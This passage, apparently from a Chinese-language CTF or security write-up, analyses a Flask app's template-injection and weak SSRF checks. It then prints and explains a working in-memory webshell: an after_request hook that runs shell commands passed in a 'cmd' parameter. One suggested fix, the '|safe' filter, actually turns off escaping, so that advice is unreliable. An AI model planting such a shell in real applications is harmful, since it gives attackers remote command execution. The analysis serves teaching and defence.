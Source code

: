 ```python
return render_template_string(f"""
        <h2>Newest Advice(from myself)</h2>
        <div>{page_content}</div>
""")
```

漏洞点：
- 将不可信数据直接插入模板字符串
- 没有对模板表达式进行转义或过滤
- 使用`render_template_string`而不是`render_template`

修复方法：
- 使用`render_template`并通过变量传递数据
- 在模板中使用`{{ page_content|safe }}`显式标记可信内容
- 过滤用户输入以移除潜在的模板表达式

### 3.4 未验证的URL访问

在`fetch_page_content`函数中：

```python
parsed_url = urlparse(url)
if parsed_url.scheme != 'http' or parsed_url.hostname != 'ezmail.org':
    return "SSRF Attack!"
```

漏洞点：
- 只验证了主机名和协议，没有验证端口和路径
- 允许访问内部服务和敏感路由

修复方法：
- 更严格的URL验证（包括端口和路径）
- 使用白名单方法：只允许访问特定的已知安全URL
- 实现更完善的SSRF防护机制

## 4. 内存马技术分析

### 4.1 内存马注入代码解析

```python
app.after_request_funcs.setdefault(None, []).append(
    lambda resp: CmdResp if request.args.get('cmd') and 
    exec('global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())')==None 
    else resp
)
```

关键技术点：
- 利用Flask的`after_request_funcs`注册后处理钩子
- 使用`exec`动态执行代码以避免静态分析
- 通过URL参数`cmd`作为命令执行的触发器
- 创建全局变量`CmdResp`存储命令执行结果
- 条件表达式结构使代码更难理解

